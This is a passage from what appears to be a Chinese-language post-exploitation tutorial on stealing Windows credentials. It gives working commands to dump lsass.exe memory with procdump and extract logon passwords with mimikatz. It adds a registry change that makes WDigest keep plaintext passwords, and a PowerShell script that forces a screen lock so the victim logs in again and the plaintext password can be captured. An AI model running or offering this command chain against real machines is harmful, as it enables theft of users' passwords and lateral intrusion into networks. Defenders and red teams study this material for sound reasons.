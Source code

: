 [![image-20220528082740055.png](assets/1698894253-23f295eb0c2203a7b222be10cd7488f9.png)](https://storage.tttang.com/media/attachment/2022/06/17/d991b7f9-03a8-4d90-b728-813636c26e72.png)

#### [prodump+mimikatz +注册表（适用于 win10 及 2012 以后的版本）](#toc_produmpmimikatz-win102012)

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp 
mimikatz.exe # "sekurlsa::minidump C:\Desktop\lsass.dmp" "sekurlsa::logonpasswords full" exit
```

如果不修改注册表 抓取后密码会显示 NULL

可以通过修改注册表 让 Wdigest Auth 保存明文口令：

```bash
reg add HKLM/SYSTEM/CurrentControlSet/Control/SecurityProviders/WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

如果想恢复原样 1 改成 0 即可

修改注册表后需要用户注销或者重新登录之后才会生效

强制锁屏脚本

```bash
Function Lock-WorkStation {

$signature = @"
[DllImport("user32.dll", SetLastError = true)]
public static extern bool LockWorkStation();
"@

$LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru

$LockWorkStation::LockWorkStation() | Out-Null

}

Lock-WorkStation
```
